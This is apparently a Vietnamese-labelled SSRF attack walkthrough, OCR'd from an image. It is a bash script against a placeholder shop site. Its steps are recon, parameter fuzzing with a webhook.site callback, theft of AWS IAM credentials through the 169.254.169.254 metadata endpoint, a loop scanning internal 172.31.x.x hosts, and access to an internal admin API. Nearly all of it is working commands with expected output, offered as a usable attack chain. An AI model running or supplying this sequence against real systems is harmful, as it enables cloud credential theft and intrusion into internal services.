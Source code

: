 
## 🚨 **REAL-WORLD SCENARIO**

### **Giả sử target: https://shop.example.com**

```bash
# 1. RECONNAISSANCE
gospider -s https://shop.example.com -o endpoints.txt

# Found: /api/inventory/check?product=1&size=M

# 2. PARAMETER DISCOVERY
ffuf -w params.txt -u "https://shop.example.com/api/inventory/check?product=1&size=M&FUZZ=http://webhook.site/test"

# Found: callback_url returns different response!

# 3. SSRF CONFIRMATION
curl "https://shop.example.com/api/inventory/check?product=1&size=M&callback_url=https://webhook.site/abc123"

# Webhook.site receives request from 3.15.123.45 (AWS IP)
# User-Agent: python-requests/2.28.0
# → CONFIRMED SSRF!

# 4. CLOUD METADATA
curl "https://shop.example.com/api/inventory/check?product=1&size=M&callback_url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Response contains: "EC2-ShopBackend-Role"

curl "https://shop.example.com/api/inventory/check?product=1&size=M&callback_url=http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2-ShopBackend-Role"

# Got AWS credentials!
# AccessKeyId: ASIA...
# SecretAccessKey: ...
# Token: ...

# 5. INTERNAL SCAN
for ip in 172.31.{1..255}.{1..255}; do
  curl -s "https://shop.example.com/api/inventory/check?product=1&size=M&callback_url=http://$ip:8080/health" | grep "healthy" && echo "Found: $ip"
done

# Found internal services:
# 172.31.10.5:8080 - User Service
# 172.31.10.6:8080 - Product Service
# 172.31.10.7:3306 - MySQL Database

# 6. EXPLOIT
curl "https://shop.example.com/api/inventory/check?product=1&size=M&callback_url=http://172.31.10.5:8080/api/admin/users"

# Access admin panel through SSRF!
```

---